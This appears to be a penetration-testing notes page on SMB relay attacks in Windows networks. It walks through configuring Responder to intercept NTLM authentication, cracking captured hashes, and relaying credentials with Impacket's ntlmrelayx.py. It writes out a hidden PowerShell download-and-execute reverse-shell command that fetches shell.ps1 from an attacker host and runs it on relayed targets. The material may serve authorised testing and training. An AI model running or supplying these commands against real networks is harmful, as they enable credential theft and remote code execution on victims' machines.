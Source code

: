 # SMB Relay
**SMB Relay** is a type of attack that targets the Server Message Block (SMB) protocol used primarily for providing shared access to files, printers, and serial ports in a network.

The attack involves intercepting and relaying SMB authentication attempts to another SMB server, allowing an attacker to gain unauthorized access or execute commands with the victim's credentials.

## Key Concepts

1. **SMB (Server Message Block) Protocol**:
    
    - A network protocol used for sharing files, printers, and serial ports.
    - Operates over TCP/IP using ports 139 and 445.
2. **NTLM (NT LAN Manager) Authentication**:
    
    - A suite of Microsoft security protocols intended to provide authentication, integrity, and confidentiality to users.
    - SMB often uses NTLM for authentication.
3. **Relay Attack**:
    
    - An attacker intercepts the authentication process.
    - Instead of cracking the intercepted credentials, the attacker relays them to another server to authenticate.

## Attack Process

1. **Configuring Responder**:
- Modify the `Responder.conf` configuration file to enable or disable specific protocols. For SMB relay, ensure that SMB and HTTP are set to `On` and that `HTTP Server` is also enabled.
```java
sudo nano /etc/responder/Responder.conf
```
2. **Intercept**:
- The attacker sets up a malicious SMB server to intercept authentication attempts.
- The attacker needs to position themselves in the network to intercept SMB traffic (Man-in-the-Middle), this can be done with *Responder*.
```java
python3 Responder.py -I <interface> -dw
```
3. **Cracking hashes**:
- After some time different user hashes would be captured by the Responder. All this hashes can be cracked using tools as *John* or *Hashcat* before executing the relay. 

4. **Setting Up SMB Relay with Impacket**:
- Create a `targets.txt` file that contains the IP addresses of the target servers you want to relay the credentials to.
- Use Impacket's **ntlmrelayx.py** script to relay the captured credentials to another target server.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
5. **Gaining access**:
- Create a simple reverse shell payload that can be executed on the target host. For example, using PowerShell for a Windows target:
```bash
powershell -NoP -NonI -W Hidden -Exec Bypass -Command "iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')"
```
	
-  Host the `shell.ps1` script on your attacker machine (e.g., using a simple HTTP server).
```bash
python3 -m http.server 80
```
- Run NTLMRelayx.py with the Reverse Shell Command:
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "powershell -NoP -NonI -W Hidden -Exec Bypass -Command \"iex(New-Object Net.WebClient).DownloadString('http://attacker-ip/shell.ps1')\""
```


# NTLMRelayx.py

**ntlmrelayx.py** is a powerful tool from the Impacket toolkit used for relaying captured NTLM authentication attempts to other network services. It is particularly effective in Windows Active Directory (AD) environments, allowing attackers to gain unauthorized access to network resources by relaying credentials.

## Configuring Target List:

- Create a `targets.txt` file with the IP addresses or hostnames of the target AD servers you want to relay the captured credentials to.
```bash
192.168.1.10 
192.168.1.11
```
## Starting NTLMRelayx.py:

- Use NTLMRelayx.py to relay captured NTLM authentication attempts to the targets listed in `targets.txt`.
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support
```
- Also, NTLMRelayx.py can be configured to execute a certain command of our election after pawning one of the target hosts. 
```bash
sudo ntlmrelayx.py -tf targets.txt -smb2support -c "<command>"
```
